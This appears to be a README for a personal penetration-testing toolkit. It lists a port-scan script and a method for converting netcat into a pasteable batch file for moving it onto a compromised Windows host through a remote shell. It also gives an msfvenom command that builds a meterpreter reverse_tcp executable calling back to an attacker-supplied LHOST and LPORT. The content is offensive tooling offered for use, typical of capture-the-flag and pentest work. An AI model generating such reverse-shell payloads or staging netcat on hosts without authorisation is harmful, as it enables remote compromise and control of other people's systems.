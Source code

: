 # t0w3ntum

### Files
nmap.sh - Does a full fast port scan and then individual intense scans on each port
tools/nc.txt
     Useful if you have no other way of copying netcat over to a target windows
host. To use, copy the contents of nc.txt and paste it into the remote shell. 
I use xclip like so. 
	cat nc.txt | xclip -selection clipboard
The file was created with the following method. 
	upx nc.exe
	wine exe2bat.exe nc.exe nc.txt

### Commands
- Generate a meterpreter reverse_tcp shell. 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
